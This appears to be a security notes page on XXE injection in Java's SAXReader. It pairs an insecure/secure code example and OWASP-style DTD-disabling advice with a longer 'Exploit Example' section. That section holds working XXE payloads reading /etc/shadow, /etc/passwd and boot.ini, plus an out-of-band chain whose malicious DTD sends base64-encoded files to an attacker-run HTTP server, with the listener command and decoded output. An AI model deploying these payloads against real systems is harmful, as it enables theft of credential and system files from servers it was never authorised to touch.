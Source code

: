 # SAXReader
## Insecure
```
public class SAXReaderXMLInjectionExample() {
    public void main(String[] args) {
        try {
            SAXReader reader = new SAXReader();
            Document document = reader.read( file.getInputStream() );
            List<Node> nodes = document.selectNodes("//employees/employee");
        }
    }
}
```
## Secure
```
public class SAXReaderXMLInjectionExample() {
    public void main(String[] args) {
        try {
            SAXReader reader = new SAXReader();
            reader.setFeature( DISALLOW_DOCTYPE_DECL_FEATURE, true);
            Document document = reader.read( file.getInputStream() );
            List<Node> nodes = document.selectNodes("//employees/employee");
        }
    }
}
```
## Explanation
The safest way to prevent XXE is always to disable DTDs (External Entities) completely. Depending on the parser, the method should be similar to the following:

`factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);`

Disabling DTDs also makes the parser secure against denial of services (DOS) attacks such as Billion Laughs. If it is not possible to disable DTDs completely, then external entities and external document type declarations must be disabled in the way that's specific to each parser.

If you are unable to disable using the above, then you must use the following two together to disable DTDs and prevent XML
`factory.setFeature("http://xml.org/sax/features/external-general-entities", false);`
`factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);`

## Exploit Example
### read /etc/shadow
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/shadow"> ]>
### read /etc/passwd
<?xml version=”1.0″ encoding=”ISO-8859-1″?> <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM “file:///etc/passwd” >]> <xml> <foo>&xxe;</foo> </xml>

### /etc/shadow
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
<foo>&xxe;</foo>

### read boot.ini in windows
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>

### xml with fields to grab /etc/passwd
The server is expecting certain fields in the XML file.  
https://infosecwriteups.com/devoops-an-xml-external-entity-xxe-hackthebox-walkthrough-fb5ba03aaaa2
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:////etc/passwd" >
]>
<note>
  <Author>Mitchell Moser</Author>
  <Subject>Gimme the Loot</Subject>
  <Content>&file;</Content>
</note>
```
### xml to connect to my IP and port
```
<?xml version = "1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://$MY_IP:$MY_PORT" >
]>
<foo>&xxe;</foo>
<order>
<quantity>test</quantity>
<item>Home Appliances</item>
<address>&file;</address>
<note></note>
</order>
```
##  Server to read files
1.  Make a file called `xxe.dtd` with the following contents
```
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'http://10.10.14.14:8081/%file;'>">
```
1.  Start up a python server with the xxe.dtd file in its directory with the following
```
python3 -m http.server 8081
```
1.  Perform a request with the following xml
```
<?xml version = "1.0"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % dtd SYSTEM "http://$MY_IP:8081/xxe.dtd">

%dtd;
%all;
%req;
]>
```
1.  This should return something like the following in the log history for the python server
```
10.129.95.192 - - [16/Jan/2022 17:14:35] "GET /OyBmb3IgMTYtYml0IGFwcCBzdXBwb3J0DQpbZm9udHNdDQpbZXh0ZW5zaW9uc10NClttY2kgZXh0ZW5zaW9uc10NCltmaWxlc10NCltNYWlsXQ0KTUFQST0xDQpbUG9ydHNdDQpDT00xOj05NjAwLG4sOCwxDQo= HTTP/1.0" 404 -
```
1.  You can then run that in the base64 decode to see the output of that file
```
┌──(kali㉿kali)-[~]
└─$ echo "OyBmb3IgMTYtYml0IGFwcCBzdXBwb3J0DQpbZm9udHNdDQpbZXh0ZW5zaW9uc10NClttY2kgZXh0ZW5zaW9uc10NCltmaWxlc10NCltNYWlsXQ0KTUFQST0xDQpbUG9ydHNdDQpDT00xOj05NjAwLG4sOCwxDQo=" | base64 -d
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[Ports]
COM1:=9600,n,8,1
                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$  
```

## links
OWASP XXE Prevention link: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html